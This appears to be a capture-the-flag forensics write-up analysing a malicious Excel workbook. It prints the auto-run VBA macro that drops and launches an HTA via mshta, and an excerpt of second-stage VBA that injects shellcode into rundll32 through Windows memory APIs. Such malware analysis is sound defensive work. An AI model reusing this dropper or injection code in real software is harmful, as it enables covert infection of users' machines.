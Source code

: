 +++
author = "Brian Stadnicki"
title = "HTB forensics challenge: oBfsC4t10n #93"
date = "2021-11-25"
categories = [ "htb" ]
tags = [ "reverse engineering", "forensics", "excel", "vba", "injection" ]
+++

## Introduction

I started analysing this from finding it on the malware sandbox any.run, only at the end do I notice that it's a Hack The Box challenge.

## Sample

This sample is from [any.run](https://app.any.run/tasks/0c81fc47-2bb2-4724-a1ee-fc5ebde8e4f5/).

![Preview of excel sheet](/posts/htb-challenge-93/preview.png)

Property              | Value
----------------------|---------------------------------------------------
File Type             | Microsoft Excel 97-2003 Worksheet
File Size             | 35.6 KB
MD5                   | b54c993e941836bf2c9c69948b30bcf0
SHA1                  | a3e6234b5310a3918b9e01c08badf3eb5f44a4b8 
SHA256                | 3861795ece849d6b417a3c9870a7e0a0eccd27f74e706b9242d94d5e8885b705

## VBA Extraction

Using olevba, we can view the vba code inside.

```vb
Sub Auto_Open()
    Dim fHdswUyK, GgyYKuJh
    Application.Goto ("JLprrpFr")
    GgyYKuJh = Environ("temp") & "\LwTHLrGh.hta"

    Open GgyYKuJh For Output As #1
    Write #1, hdYJNJmt(ActiveSheet.Shapes(2).AlternativeText & UZdcUQeJ.yTJtzjKX & Selection)
    Close #1

    fHdswUyK = "msh" & "ta " & GgyYKuJh
    x = Shell(fHdswUyK, 1)
End Sub
```

You can see that when the excel file is opened, the output file Environ("temp") & "\LwTHLrGh.hta" is opened and written with the output from hdYJNJmt(string), then executed using `mshta`. A `.hta` file is a Microsoft HTML Application file, which can contain VB or JS.

### Dumping

Simply allow the excel file to run with macros enabled, and find the extracted `LwTHLrGh.hta` file, in my case at `C:\Users\IEUser\AppData\Local\Temp\LwTHLrGh.hta`.

## LwTHLrGh.hta

It appears to open a shell, do something with a registry key about `VBOM`, and then add a code module to a workbook, using `xlmodule.CodeModule.AddFromString ...`.

```vb
' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
xlmodule.CodeModule.AddFromString ""Private ""&""Type PRO""&""CESS_INF""&""ORMATION""&Chr(10)&"" ....
```

The string appears to simply be a lot of strings concatenated together with some char calls. Replace all the `""` with `"` and then simply use something like an [online vb compiler](https://www.onlinegdb.com/online_vb_compiler) to evaluate the string.

## Dynamic VBA

```vb
Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" ...
Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" ...
Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" ...
Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" ...
...
    myArray = Array(...)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
```

In the dynamically loaded VBA, we see that `rundll32.exe` is ran and `myArray` written to the process. Unusually, the process executable is ran without any arguments.

### Extraction

To extract the code which is dynamically injected into the `rundll32.exe` process, I wrote some very basic python to write it to a file. VBA allows bytes to be signed ints, but python requires them to be unsigned.

```python
with open ("out.bin", "wb") as out:
    for b in myArray:
        out.write((b & 0xff).to_bytes(1, 'little'))
```

## rundll32.exe

Statically analyzing this doesn't seem to give any useful information, and given its size of 1 KB and just calls to `ntdll.dll`, it's likely that this is just another loader that tries to hide in `rundll32.exe`. It's quite obfuscated and doesn't seem to have any meaningful structure, so I'll try to gloss over the details of how it works, life is too short for that.

Monitoring it using API Monitor, it appears that it loads some windows DLLs, calls some socket methods, and then has an error and calls windows error handling methods. I've spotted two interesting calls to `RtlUnicodeToUTF8N`, inbetween calls getting winsock registry keys and the error handling.

Module         | API
---------------|--------------------------------------------------------------------------------------
KERNELBASE.dll | RtlUnicodeToUTF8N ( NULL, 0, 0x04e0ebf0, "evil-domain.no/HTB{redacted-for-fun}", 76)
KERNELBASE.dll | RtlUnicodeToUTF8N ( "", 39, 0x04e0ebf0, "evil-domain.no/HTB{redacted-for-fun}", 76)

## Hack The Box

Looks like I accidentally found a [Hack The Box challege](https://app.hackthebox.com/challenges/93)! [Challenge completed](https://www.hackthebox.com/achievement/challenge/833022/93).
